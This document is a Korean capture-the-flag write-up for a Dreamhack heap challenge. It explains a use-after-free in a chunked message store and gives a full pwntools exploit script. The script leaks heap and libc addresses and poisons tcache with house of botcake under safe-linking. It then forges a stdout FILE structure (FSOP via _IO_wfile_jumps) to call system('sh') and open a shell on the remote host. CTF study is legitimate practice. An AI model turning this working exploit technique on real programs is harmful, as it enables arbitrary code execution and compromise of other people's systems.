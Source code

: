 메세지가 길면 블록블록 잘라서 연쇄적으로 청크를 구성한다.
가장 중요한 점은 첫 번째 청크는
ptr + 0 : idx
ptr + 1 : size
ptr + 2 : next_chunk,
ptr + 3 ~ : message
나머지 청크는
ptr + 0 : next_chunk
ptr + 1 ~ : message
이다.
첫 번째 청크 주소를 head에 저장한다. 그런데 free를 한 뒤에 초기화해주지 않으므로 UAF 취약점이 발생한다.
idx 1에 0x30 size인 청크를 할당했다가 해제하면
idx 2에 0x1000 + 0x30 size인 청크를 할당할 때 idx 1의 size와 next_chunk를 조작하면서 할당받을 수 있고, `write`에서 size만큼 힙 영역을 출력해주기 때문에 이 취약점을 이용하여 heap_base, libc_base를 leak할 수 있다.

fastbin을 이용하려면 fake chunk를 직접 구성해야 하는데 스택 주소 값도 모르므로 그럴 수 없다. tcache chunk는 재할당받으려는 청크 부분의 size 검사를 하지 않으므로 tcache를 이용했어야 했다. 따라서 익스는 tcache 취약점인 house of botcake를 이용했다.

고생 : 문제는 fake_chunk 주소가 정렬되어 있지 않는 오류였다. 여태껏 heap_base, 즉 XOR key가 고정되어 있는 줄 알았다. 그런데 코드를 보니 XOR key 는 ptr >> 12 였다. 문제를 풀면서 청크를 약 0x3000 정도 남발하면서 사용했기 때문에 초기에 구한 XOR key와 차이가 생겨버린 것이다.
```python
from pwn import *
from tqdm import *

#context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

#p = process('./prob')
p = remote('host3.dreamhack.games', 16696)
l = ELF('./libc.so.6')

def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

def w(idx : int, size : int, payload : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'size: ', str(size).encode())
    p.send(payload)

def r(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.recvuntil(b'msg->buf = ')
    return p.recvline()[:-1]

w(1, 1, b'a')
w(2, 1, b'a')
r(2)
r(1)
w(3, (0xfe8 + 0x18), b'a' * 0xfe8 + p64(0x100) + b'a' * 0x10)
leak = r(1)
heap_base = u64(leak[0x18:0x18 + 6].ljust(8, b'\x00')) << 12
print(hex(heap_base))
#chunk full
w(1, 1, b'a')
w(2, 1, b'a')

w(1, 1, b'a')
r(1)
w(2, 0x500, b'a' * 0x500)
w(3, (0xfe8 + 0x18), b'a' * 0xfe8 + p64(0x100) + b'a' * 0x10)
r(2)
leak = r(1)
l.address = u64(leak[0x18:0x18 + 6].ljust(8, b'\x00')) - (0x7ffff7facce0 - 0x7ffff7d93000)
print(hex(l.address))
#chunk full
w(1, 1, b'a')
w(2, 0x500, b'a' * 0x500)

for i in tqdm(range(9)):
    w(i, 0x100 - 0x18, b'a' * (0x100 - 0x18))
w(9, 1, b'a')

for i in tqdm(range(7)):
    r(i)
r(8)
r(7)
w(6, 0x100 - 0x18, b'a' * (0x100 - 0x18))
r(8)

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
stdout_lock = l.address + (0x7ffff7faea70 - 0x7ffff7d93000)
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)

w(10, 0x120 - 0x18, b'a' * (0x100 - 0x18 + 0x8) + p64(0x111) + p64((fake_fsop_struct - 0x20) ^ ((heap_base >> 12) + 3)) + b'a' * 0x8)

#gdb.attach(p)
#pause()

w(11, 0x100 - 0x18, b'a' * (0x100 - 0x18))
w(12, 0x100 - 0x18, p64(l.sym["_IO_file_jumps"]) + FSOP)
p.interactive()
```